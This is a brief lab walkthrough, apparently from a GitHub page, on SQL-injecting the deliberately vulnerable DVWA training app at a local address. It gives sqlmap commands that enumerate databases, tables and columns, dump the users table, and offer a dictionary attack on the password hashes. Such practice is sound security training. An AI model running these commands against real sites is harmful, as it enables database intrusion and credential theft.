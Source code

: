 DVWA local site will try to enforce security to impossible with its own PHPSESSID but it will
ask you if you want to set those diferently. This is obviously a vulnerability as the website should
enforce its own security and session ID.

* Test for SQL injection vulnerabilities within these fields:
sqlmap --url "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=hello&Submit=Submit#" -p id,Submit --cookie="PHPSESSID=4q25s9eis93ul7uj24f0164vb0;security=low" --dbs --dbms=mysql

* Grab tables:
sqlmap --url "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=hello&Submit=Submit#" -p id,Submit --cookie="PHPSESSID=4q25s9eis93ul7uj24f0164vb0;security=low" --tables

* Grab columns from the Users table
sqlmap --url "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=hello&Submit=Submit#" -p id,Submit --cookie="PHPSESSID=4q25s9eis93ul7uj24f0164vb0;security=low" -D dvwa -T users --columns

* Dump table entries from the Users table:
sqlmap --url "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=hello&Submit=Submit#" -p id,Submit --cookie="PHPSESSID=4q25s9eis93ul7uj24f0164vb0;security=low" -D dvwa -T users --dump
	-You will be given a choice to do a dictionary attack on the hashes with default options or
	download them later to work them against other tools.
